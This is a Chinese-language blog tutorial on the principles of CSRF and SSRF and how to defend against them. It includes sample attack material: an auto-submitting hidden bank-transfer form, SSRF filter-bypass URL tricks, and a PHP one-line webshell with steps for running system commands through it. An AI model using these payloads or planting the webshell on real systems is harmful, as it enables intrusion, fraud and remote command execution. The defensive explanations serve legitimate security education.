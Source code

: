 ```yaml
---
published: true
layout: post
tags: web安全
categories: document
description: CSRF与SSRF原理
---
```

## Csrf跨站请求伪造
  Csrf利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账、改密等）。CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。   

CSRF攻击攻击原理及过程如下：  
       1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A;    
       2.在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A;    
       3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；  
       4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A;         
       5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。   


例如访问的恶意web页面为：


	<img src="恶意链接地址" border="0" style="display:none;"/> 


	<h1>404<h1> 


	<h2>file not found.<h2> 
    

若网站使用post发送请求，那么攻击方可以修改页面为：

      <html> 
        <head> 
          <script type="text/javascript"> 
            function steal() 
            { 
                     iframe = document.frames["steal"]; 
                     iframe.document.Submit("transfer"); 
            } 
          </script> 
        </head> 

        <body onload="steal()"> 
          <iframe name="steal" display="none"> 
            <form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php"> 
              <input type="hidden" name="toBankId" value="11"> 
              <input type="hidden" name="money" value="1000"> 
            </form> 
          </iframe> 
        </body> 
      </html> 


csrf防御策略:  
1.验证 HTTP Referer 字段  
    根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。如果黑客要对银行网站实施 CSRF 攻击，他只能在他自己的网站构造请求，当用户通过黑客的网站发送请求到银行时，该请求的 Referer 是指向黑客自己的网站。因此，要防御 CSRF 攻击，银行网站只需要对于每一个转账请求验证其 Referer 值，如果是以 bank.example 开头的域名，则说明该请求是来自银行网站自己的请求，是合法的。如果 Referer 是其他网站的话，则有可能是黑客的 CSRF 攻击，拒绝该请求。  
2.在请求地址中添加 token 并验证  
 	CSRF 攻击之所以能够成功，是因为黑客可以完全伪造用户的请求，该请求中所有的用户验证信息都是存在于 cookie 中，因此黑客可以在不知道这些验证信息的情况下直接利用用户自己的 cookie 来通过安全验证。要抵御 CSRF，关键在于在请求中放入黑客所不能伪造的信息，并且该信息不存在于 cookie 之中。可以在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。  
3.设置跨域权限    	
4.提交验证码      
	在表单中添加一个随机的数字或字母验证码。通过强制用户和应用进行交互。来有效地遏制CSRF攻击。

## SSRF服务端请求伪造
  SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）应用需要调用其他服务器的资源，需要传入一个目标服务器地址去请求，但是没有对目标地址做过滤与限制，导致攻击者可借助服务端实现访问其本无权访问的URL。攻击者无权访问的URL主要是内网，而对于不是Web服务的其他端口反回的一般是端口对应的服务的banner信息，所以SSRF的一大利用是探测内网端口开放信息。  

ssrf出现在：  
1.通过url分享网页内容   
2.转码服务   
3.在线翻译   
4.图片的加载与下载   
5.在url关键字寻找：share,wap,url,link,src,sourse,target,u,3g,display,sourceURl,imgurl   

例如：  
www.xxx.com/a.php?image=http://www.abc.com/1.jpg  
如果我们将http://www.abc.com/1.jpg换为与该服务器相连的内网服务器地址会产生什么效果呢？  
如果存在该内网地址就会返回1xx 2xx 之类的状态码，不存在就会其他的状态码  

当访问的内网地址http://127.0.0.1/ 被过滤的时候，可以尝试一下几种方式:        
1.@  
http://abc@127.0.0.1  
2.添加端口号    
http://127.0.0.1:8080    
3.短地址  
http://dwz.cn/11SMa  
4.ip地址转换成进制来访问  
115.239.210.26 = 16373751032   

 外网利用过程：   
1.在b站上传一句话木马  

    <?php 
    $s=$_POST[‘url’] 
    $s=file_get_contents($s) 
    $s($_POST[‘cmd’]); 
    > 

2.在a站保存一个txt文件，内容为 assert  
3.访问b站的木马，上传url=a站ip的txt文件将assert读取，脚本解释器将它解释为assert函数，&cmd={phpinfo();可以继续添加命令system("ipconfig")} 让assert执行cmd实现获取php信息的木马执行。（//这就是利用服务端远程文件读取）

ssrf防御策略：    
1.过滤放回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。  
2.统一错误信息，避免用户可以根据错误信息来判断远程服务器的端口状态。  
3.限制请求的端口为http常用的端口，比如，80,443,8080,8090。  
4.黑名单内网IP。避免应用被用来获取内网数据，攻击内网。  
5.禁用不需要的协议。仅仅允许http和https请求。  
